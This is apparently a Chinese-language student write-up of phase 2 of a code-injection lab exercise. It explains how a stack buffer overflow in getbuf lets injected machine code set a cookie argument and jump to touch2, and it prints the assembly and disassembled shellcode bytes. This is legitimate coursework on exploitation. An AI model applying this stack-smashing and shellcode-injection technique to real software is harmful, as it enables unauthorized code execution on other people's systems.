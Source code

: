 ```c
void touch2(unsigned val)
	vlevel = 2; /* Part of validation protocol */
	if (val == cookie) {
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	} else {
		printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2);
	}
	exit(0);
}
```
你的任务是使CTARGET执行touch2的代码而不是返回到test。在这个例子中，你必须让touch2以为它收到的参数是你的cookie。

phase 1 通过后，我们会得到 cookie为`0x6a1e7f12`（另一个文件也有）
```
Cookie: 0x6a1e7f12
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
`touch`的参数储存在`%rdi`里，所以要做两件事，一是把cookie放到`%rdi`里，二是跳转到，三是截停getbuf运行后的转移控制，不能返回到test里，而是返回到我们注入的代码处

三容易达成，就是和 phase1 一样，利用缓冲区溢出修改getbuf后面的返回地址，跳到注入的代码处

前两个任务就是要注入的代码，那我们的代码要注入到哪里呢？
考虑getbuf把数据读取到栈里，在phase1我们读入的是垃圾数据来填满缓冲区，现在我们可以把注入的机器码放在缓冲区，然后修改返回位置到开栈的位置，这样就能接着运行我们的代码了

 ```
 0000000000401833 <touch2>:
  401833:       48 83 ec 08             sub    $0x8,%rsp
  401837:       89 fe                   mov    %edi,%esi
  （···）
 ```
 可知 touch2 在 `0x401833`
 
 所以注入的代码应该为
  ```
  （a2_code.s）
 mov $0x6a1e7f12,%rdi
pushq $0x401833
retq
  ```
  先生成机器码
  ```
  gcc -c a2_code.s
  ```
  再反汇编查看
  ```
  objdump -d a2_code.o > a2_code.txt
```
得到
```
a2_code.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 12 7f 1e 6a    mov    $0x6a1e7f12,%rdi
   7:   68 33 18 40 00          pushq  $0x401833
   c:   c3                      retq
```
 